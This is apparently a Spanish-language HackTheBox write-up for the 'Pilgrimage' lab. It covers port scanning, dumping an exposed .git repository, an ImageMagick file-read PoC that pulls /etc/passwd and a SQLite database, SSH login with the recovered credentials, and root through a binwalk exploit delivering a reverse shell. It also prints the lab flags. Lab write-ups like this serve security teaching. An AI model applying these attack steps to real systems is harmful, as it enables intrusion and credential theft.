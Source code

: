 ```yaml
---
title: Pilgrimage HTB
date: 2023-07-11
tier: easy
author: naibu3
---
```

#linux #web #imagemagick #git

## Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```bash
sudo nmap -sS -p- --min-rate 5000 -n -Pn 10.10.11.219 -vvv
```
```nmap
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

```bash
sudo nmap -sCV -p22,80 -n 10.10.11.219 -vvv
```
```nmap
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://pilgrimage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Si accedemos a la ip via web, nos encontraremos con que se nos redirige a `pilgrimage.htb`. Lo añadimos al `/etc/hosts` y ya podremos ver una *subida de archivos*, una pestaña de *login* y otra de *registro*.

Con [[whatweb]] podemos ver que tecnologías utiliza la web:

```whatweb
http://pilgrimage.htb [200 OK] Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0], IP[10.10.11.219], JQuery, Script, Title[Pilgrimage - Shrink Your Images], nginx[1.18.0]
```

Aunque no vemos nada.

A continuación, podemos tratar de buscar recursos, comenzamos con [[dirb 1]]:

```dirb
---- Scanning URL: http://pilgrimage.htb/.git/ ----
+ http://pilgrimage.htb/.git/config (CODE:200|SIZE:92)
==> DIRECTORY: http://pilgrimage.htb/.git/hooks/
+ http://pilgrimage.htb/.git/index (CODE:200|SIZE:3768)
==> DIRECTORY: http://pilgrimage.htb/.git/info/
==> DIRECTORY: http://pilgrimage.htb/.git/logs/
==> DIRECTORY: http://pilgrimage.htb/.git/objects/
```

Como va un poco lento vamos a continuar con [[gobuster]], tanto en **hooks**, como en **info** y **logs** no vemos nada interesante, así que probamos en **objects**:

```bash
sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://pilgrimage.htb/.git/objects -t 20
```
```gobuster
/.htpasswd (Status: 403) [Size: 153]
/.hta (Status: 403) [Size: 153]
/.htaccess (Status: 403) [Size: 153]
/06 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/06/]
/11 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/11/]
/23 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/23/]
/50 (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/50/]
/96(Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/96/]
/ca  (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/ca/]
/cd (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/cd/]
/dc (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/dc/]
/fa (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/fa/]
/fb (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/fb/]
/info (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/info/]
/pack (Status: 301) [Size: 169] [--> http://pilgrimage.htb/.git/objects/pack/]
```

Como hay muchos recursos, lo mejor es utilizar una herramienta como [[git-dumper]] para volcarnos todo el repositorio en local:

```bash
git-dumper -j4 http://pilgrimage.htb/.git/ ./git
```

Si entramos y echamos un vistazo a los archivos, en la raíz encontramos [[ImageMagick]], si lo ejecutamos con el parámetro `--version`, podremos listar la versión:

```bash
./magick --version
```
```magick
Version: ImageMagick 7.1.0-49 beta[...]
```

Si hacemos una búsqueda en internet, encontraremos una vuln llamada [Arbitrary File Read](https://www.exploit-db.com/exploits/51261).

## Explotación

Ejecutamos el comando de la PoC:

```bash
cargo run "/etc/passwd"
```

Nos dará como resultado una imagen que debemos subir a la web para que se procese. Una vez acabe, nos descargamos ola imagen con [[wget]] y ejecutamos el siguiente comando de [[ImageMagick]]:

```bash
identify -verbose 64ad72b7d4c8b.png
```
```identify
Raw profile type: 
    1437
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e
2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269
6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f
62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d
65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a
2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a
783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372
2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73
706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31
303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f
6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573
722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d
646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b
75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f
7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69
7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67
696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73
62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d
5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e
6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334
3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374
656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72
6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65
6e742c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c6f67696e
0a73797374656d642d7265736f6c76653a783a3130323a3130333a73797374656d642052
65736f6c7665722c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d6573736167656275733a783a3130333a3130393a3a2f6e6f6e65786973
74656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d74696d6573
796e633a783a3130343a3131303a73797374656d642054696d652053796e6368726f6e69
7a6174696f6e2c2c2c3a2f72756e2f73797374656d643a2f7573722f7362696e2f6e6f6c
6f67696e0a656d696c793a783a313030303a313030303a656d696c792c2c2c3a2f686f6d
652f656d696c793a2f62696e2f626173680a73797374656d642d636f726564756d703a78
3a3939393a3939393a73797374656d6420436f72652044756d7065723a2f3a2f7573722f
7362696e2f6e6f6c6f67696e0a737368643a783a3130353a36353533343a3a2f72756e2f
737368643a2f7573722f7362696e2f6e6f6c6f67696e0a5f6c617572656c3a783a393938
3a3939383a3a2f7661722f6c6f672f6c617572656c3a2f62696e2f66616c73650a
```

Si lo analizamos en [cyberchef]():

```xml
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Vemos que efectivamente podemos listar el `/etc/hosts`. Ahora tenemos los posibles usuarios **root** y **emily**. Además revisando el archivo `register.php` del repo, podemos ver que existe una BD (`sqlite:/var/db/pilgrimage`). Por tanto podemos tratar de listar dicho archivo:

```bash
cargo run "/var/db/pilgrimage"
```

Si repetimos el proceso, encontramos la cadena `-emilyabigchonkyboi123`.

Si probamos a conectarnos por ssh con las credenciales `emily:abigchonkyboi123`, son válidas, por lo que ya tenemos la **flag del usuario**!

```flag
eaa990cb07004e074f0fcbf73dde742f
```

## Escalada de privilegios

Una vez dentro debemos aplicar un [[Reconocimiento del equipo]], por lo que lanzamos [[pspy]]. Entre otros procesos, encontramos una tarea que ejecuta `/usr/sbin/malwarescan.sh` periodicamente:

```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```

Vemos que está utilizando [[binwalk]], si lo ejecutamos vemos que está en la versión `2.3.2`, que resulta ser vulnerable.

Para obtener una shell como root podemos usar el siguiente [exploit](https://www.exploit-db.com/exploits/51249). Una vez ejecutado generará una imagen que contiene una **reverse shell**, la copiamos a `/var/www/pilgrimage.htb/shrunk/`, y nos ponemos en escucha en nuestra máquina local con [[netcat]]. Después lo accedemos con [[wget]] (`http://pilgrimage.htb/shrunk/binwalk_exploit.png`). Y ya deberíamos tener una shell como root en netcat. Si leemos `/root/root.txt` ya tenemos la **flag**!

```flag
99a960fd480eeb9e0915775c49c78db3
```

